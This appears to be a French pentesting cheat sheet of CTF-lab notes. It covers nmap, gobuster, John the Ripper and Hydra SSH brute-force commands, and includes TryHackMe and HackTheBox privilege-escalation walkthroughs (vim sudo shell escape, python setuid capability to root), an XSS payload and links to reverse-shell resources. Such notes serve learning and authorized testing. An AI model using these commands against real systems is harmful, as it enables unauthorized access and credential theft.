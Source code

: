 # (logo pentest) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -sC 10.10.188.70```

### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### ADB connect 



[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

### XSS payload

Exemple :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Autres Sources

    * [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
    * [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
    * [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
    * [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
    * [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)
